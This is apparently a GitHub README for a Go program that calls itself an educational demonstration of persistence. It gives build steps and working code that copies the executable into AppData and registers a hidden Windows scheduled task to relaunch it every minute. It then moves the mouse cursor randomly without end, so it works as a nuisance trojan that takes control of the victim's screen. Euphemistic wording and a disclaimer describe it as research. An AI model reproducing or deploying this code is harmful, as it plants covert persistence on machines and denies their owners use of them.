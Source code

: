 # Autonomous System Interaction Demo

*A Go-based exploration of persistence and dynamic system interaction* 

---

## Getting Started

### 1. Install Go

Download and install Go from the official website:
👉 [https://go.dev/dl](https://go.dev/dl)

After installation, verify by running:

```bash
go version
```

---

### 2. Clone the Repository

```bash
git clone https://github.com/yourusername/your-repo.git
cd your-repo
```

---

### 3. Build the Project for Windows

To compile the project as a Windows executable:

```bash
go build -o app.exe main.go
```

This will generate a file named **`app.exe`** in the current directory 

---

## Overview

This project is a lightweight **Go-based demonstration** that showcases techniques related to:

1. **File relocation into user data directories** for persistence 
2. **Automated relaunch scheduling** through the Windows task planner 
3. **Continuous dynamic interface activity** generated programmatically 

The implementation is purely for **educational and research purposes**, highlighting how persistence mechanisms and interactive system behaviors can be combined in a single application 

---

## Code Walkthrough

### 1 Relocating the Executable 

```go
exePath, _ := os.Executable()
appData := os.Getenv("APPDATA")
outPath := filepath.Join(appData, filepath.Base(exePath))

input, _ := os.ReadFile(exePath)
os.WriteFile(outPath, input, 0644)
```

* Detects its own binary location 
* Creates a duplicate inside the **AppData** directory, a common location for application support files 

---

### 2 Establishing Scheduled Relaunch 

```go
taskName := filepath.Base(exePath)
taskName = taskName[:len(taskName)-len(filepath.Ext(taskName))]
cmd := exec.Command("schtasks.exe", "/create", "/f", "/sc", "minute", "/mo", "1", "/tn", taskName, "/tr", outPath)
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd.Run()
```

* Registers a scheduled task via Windows’ built-in **Task Scheduler** 
* Configured to trigger regularly, ensuring **persistence even after system restarts** 

---

### 3 Linking with System Libraries 

```go
user32 := windows.NewLazyDLL("user32.dll")
setCursorPos := user32.NewProc("SetCursorPos")
getSystemMetrics := user32.NewProc("GetSystemMetrics")

screenWidth, _, _ := getSystemMetrics.Call(0)
screenHeight, _, _ := getSystemMetrics.Call(1)
```

* Dynamically loads functions from **user32.dll**.
* Retrieves screen dimensions to define boundaries for interactive behavior 

---

### 4 Generating Continuous Activity 

```go
rand.Seed(time.Now().UnixNano())
for {
    x := rand.Intn(int(screenWidth))
    y := rand.Intn(int(screenHeight))
    setCursorPos.Call(uintptr(x), uintptr(y))
    time.Sleep(100 * time.Millisecond)
}
```

* Seeds a random generator with the current timestamp 
* Continuously produces new coordinate pairs 
* Sends instructions to reposition a system control element, creating **constant dynamic activity** on the interface 

---

## Disclaimer  

This repository is provided **strictly for research and educational demonstration** 
I (3582-490) am **not responsible** for any misuse of this project 
Running or modifying this program is entirely at the user’s own risk.
